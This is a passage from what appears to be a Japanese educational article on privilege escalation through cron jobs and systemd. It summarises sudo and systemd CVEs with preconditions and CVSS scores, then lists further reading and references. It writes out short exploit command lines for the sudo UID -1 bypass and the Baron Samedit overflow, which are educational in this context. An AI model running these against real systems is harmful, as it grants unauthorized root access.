`/etc/sudoers` に `(ALL, !root)` と記載してroot へのコマンド実行を禁止しているつもりでも、`sudo -u#-1 command` または `sudo -u#4294967295 command` のように UID -1（符号なし整数の最大値として 4294967295 になる）を指定すると root として実行できることが発見された。この脆弱性は cron で使われる `sudo` ラッパースクリプトや定期実行の `sudoers` 設定でも影響を受ける。攻撃前提: `sudoers` に `(ALL, !root)` 形式の設定がある。CVSS スコア 8.8（High）。本記事との関連: sudo・権限昇格・定期実行ジョブの設定ミス

**CVE-2021-3156（sudo — Baron Samedit、ヒープバッファオーバーフロー）**
`sudo` の引数処理にヒープバッファオーバーフローがあり、`sudoedit -s '\' $(python3 -c 'print("A"*65536)')` を実行するだけで root 権限を取得できた。定期実行スクリプトが `sudo` を呼び出す構成で、スクリプトへの書き込み権限がある場合に組み合わせて悪用される。攻撃前提: ローカルユーザー権限。CVSS スコア 7.8（High）。本記事との関連: sudo を呼ぶ cron スクリプト・権限昇格

**CVE-2023-26604（systemd — 特定条件下での権限昇格）**
一部の Linux ディストリビューションで `systemctl` コマンドを `sudo` で実行できる設定がある場合、`systemctl edit` や `systemctl set-environment` を通じて任意のユニットファイルを変更できることが発見された。攻撃者が `systemctl edit [unit]` で環境変数や `ExecStart` を変更し、`systemctl restart` で root として任意コードを実行できた。攻撃前提: `systemctl` の `sudo` 権限が付与されているローカルユーザー。CVSS スコア 7.8（High）。本記事との関連: systemd timer・ユニットファイル・権限昇格

---

## 次に学ぶべき記事

- **linux-privilege-escalation** — cron・書き込み可能スクリプト・ワイルドカード・PATH 注入を組み合わせた権限昇格の総合演習
- **linux-permissions** — スクリプトのパーミッション・SUID・`sudo` 設定の詳細
- **process-service-management** — systemd サービスの管理と永続化の仕組み

---

## 参考文献

- Linux man-pages. "crontab(5)". https://man7.org/linux/man-pages/man5/crontab.5.html
- systemd. "systemd.timer(5)". https://www.freedesktop.org/software/systemd/man/systemd.timer.html
- GTFOBins. "tar - Wildcard injection". https://gtfobins.github.io/gtfobins/tar/
- OWASP. "Command Injection". https://owasp.org/www-community/attacks/Command_Injection
- NVD. "CVE-2019-14287 Detail". https://nvd.nist.gov/vuln/detail/CVE-2019-14287
- NVD. "CVE-2021-3156 Detail (Baron Samedit)". https://nvd.nist.gov/vuln/detail/CVE-2021-3156
- NVD. "CVE-2023-26604 Detail". https://nvd.nist.gov/vuln/detail/CVE-2023-26604
- HackTricks. "Cron jobs". https://book.hacktricks.xyz/linux-hardening/privilege-escalation/cron-jobs
